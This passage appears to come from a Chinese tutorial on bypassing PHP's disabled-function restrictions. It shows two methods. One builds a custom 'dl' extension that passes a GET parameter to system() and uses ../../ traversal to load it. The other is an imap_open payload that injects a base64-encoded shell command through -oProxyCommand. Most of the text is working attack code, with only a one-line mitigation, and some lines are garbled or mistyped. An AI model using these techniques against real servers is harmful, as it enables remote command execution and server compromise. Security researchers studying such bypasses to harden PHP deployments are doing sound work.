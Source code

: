 删除以下三行内容前的dnl并保存

```
PHP_ARG_WITH(dl, for dl support,
Make sure that the comment is aligned:
[  --with-dl             Include dl support])
```

在

```
if (zend_parse_parameters(ZEND_NUM_ARGS() TSRMLS_CC, "s", &amp;arg, &amp;arg_len) == FAILURE) {
	return;
}
```

这一行下添加

```
system(arg);
```



```
whereis php-config  //找出php-config的路径
./configure --whith-php-config=【php-config的路径】
make
make install
```



```
[root@TENCENT64 ~/php-5.3.10/ext/dl]# make install
Installing shared extensions:     /usr/local/lib/php/extensions/no-debug-non-zts-20121212/
```

查看php.ini的extension_dir 项，将以下so文件拷贝到extension_dir目录下

```
/usr/local/lib/php/extensions/no-debug-non-zts-20121212/dl.so
```

若extension_dir目录无写权限则可写入任意目录用../../来绕过并调用。

```
<?php
dl("dl.so");  //dl.so在extension_dir目录，如不在则用../../来实现调用
confirm_dl_compiled("$_GET[a]>1.txt");
?>
```

查看1.txt即可看到命令执行结果



将dl函数加入禁用



### 方法五：imap_open

```php
<?php
# CRLF (c)
# echo '1234567890'>/tmp/test0001

$server = "x -oProxyCommand=echotZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=|base64t-d|sh}";

imap_open('{'.$server.':143/imap}INBOX', '', '') or die("nnError: ".imap_last_error());
```

